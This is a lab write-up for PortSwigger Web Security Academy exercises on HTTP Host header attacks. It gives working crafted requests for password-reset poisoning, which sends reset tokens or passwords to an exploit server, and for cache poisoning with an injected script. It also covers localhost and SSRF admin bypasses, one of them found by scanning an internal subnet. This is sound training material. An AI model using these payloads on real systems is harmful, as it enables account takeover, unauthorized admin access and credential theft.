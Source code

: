 # HTTP Host Header Attack
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior.

## How to test for vulnerabilities using the HTTP Host header
- **Supply an arbitrary Host header:** add arbitrary port value
- **Check for flawed validation**
- **Inject duplicate Host headers**
- **Supply an absolute URL**
- **Indenting HTTP headers with a space character**
- **Inject host override headers:** `X-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, `Forwarded`, `X-Forwarded-Host`

### LAB: Basic password reset poisoning
Notice the reset password function will send an email with a link containing the value of the `Host` header and the token to the client. Send a reset password request for user `carlos` with the `Host` header value set to our exploit server:

    POST /forgot-password HTTP/2
    Host: exploit-0aba006a0360a28181024c3601cf0036.exploit-server.net/exploit

    csrf=uT5JUzeQyGuAdMlLJ6Lbk4djBrKqWd3E&username=carlos

After Carlos click on the link, visit the log page to obtain the token. Use the token to reset Carlos password and login to his account.

### LAB: Password reset poisoning via dangling markup
Notice the `Host` header at `POST /forgot-password` accepts arbitrary port value and reflects it inside the `href` attribute of the `a` tag. Use danling markup to observe the reset password appearing after the `a` tag:

    POST /forgot-password HTTP/2
    Host: 0a7500ac048205b380390887003600a4.web-security-academy.net:'<a href="//exploit-0ad30065047505668093072501d70058.exploit-server.net/?

    csrf=cNDtaTqwnnnI2PMPmNJoTN8480qllGpl&username=carlos

After Carlos click on the link, visit our log page to view the request:

    "GET /?/login'>click+here</a>+to+login+with+your+new+password:+NJZtqurfeu</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200

Retrieve the password and login to Carlos' account.

### LAB: Web cache poisoning via ambiguous requests
Notice the `Host` value is reflected inside a script `src` attribute. When sending a request with 2 `Host` header, the second value is reflected inside the script `src` attribute. Send this request:

    GET / HTTP/1.1
    Host: 0a7000b6043a95d480210d90001600a5.h1-web-security-academy.net
    Host: exploit-0a2f00030419953180010ce101190006.exploit-server.net/exploit#

However the cache server only considers the first `Host` header's value as a cache key. Resend this request to make the cache server store it. Now when the victim visits the home page, he is served with our malicious script at the exploit server:

    alert(document.cookie)

### LAB: Host header authentication bypass
Notice when accessing `/admin`, we are restricted with this reason:

    Admin interface only available to local users

This suggested that the admin interface can be accessed if we can trick the server into thinking that we are local users. Send this request:

    GET /admin HTTP/2
    Host: localhost

Now we successfully access the admin interface and found an endpoint to delete user Carlos. Send this request to delete him:

    GET /admin/delete?username=carlos HTTP/2
    Host: localhost

### LAB: Routing-based SSRF
Change the `Host` header of the `GET / HTTP/2` request to use our Burp's Collaborator payload. Send the request and notice the HTTP requesting to our server. This indicates that, we can make the middleware issue a request to an arbitrary server.
Send this request to Intruder, deselect the `Update Host header to match target`. Now create a sniper attack for every IP address in the subnet 192.168.0.0/24. Notice 1 IP address is given us a redirection to the admin interface. Use the found IP to view the admin interface:

    GET /admin HTTP/2
    Host: 192.168.0.101

Now send the delete user request to successfully delete user Carlos:

    POST /admin/delete HTTP/2
    Host: 192.168.0.101

    csrf=RX7lsL6eVBl3Cjnqp6gFiTeFkVPTz2DL&username=carlos

### LAB: SSRF via flawed request parsing
Notice when supplying the target request with the absolute URL, the request is no longer blocked when modifying the `Host` header. Send this request and observe that we can make the middleware issue request to an arbitrary server:

    GET https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/ HTTP/2
    Host: 2y1a02ux3fmrhlpbx6cqqja6dxjq7kv9.oastify.com

Send this request to Intruder, deselect the `Update Host header to match target`. Now create a sniper attack for every IP address in the subnet 192.168.0.0/24. Notice 1 IP address is given us a redirection to the admin interface. Use the found IP to view the admin interface:

    GET https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/admin HTTP/2
    Host: 192.168.0.181

Now send the delete user request to successfully delete user Carlos:

    POST https://0a32000d03ee7e80818fbb8300c0005c.web-security-academy.net/admin/delete HTTP/2
    Host: 192.168.0.181

    csrf=PGU6qglOQEUM9zLMBek6gi355yHPkkCH&username=carlos

### LAB: Host validation bypass via connection state attack
[link](https://portswigger.net/research/browser-powered-desync-attacks#state)
Send the `GET / HTTP/1.1` to Repeater. Duplicate the request and modify it to:

    GET /admin HTTP/1.1
    Host: 192.168.0.1

Group the 2 tabs and `Send in sequence (single connection)`. Notice the admin interface appears. Modify the second request to:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.1

    csrf=ibqNTHzoorRrNKoUlOPGHLrqcNoezrE0&username=carlos

Resend the group to successfully delete user Carlos.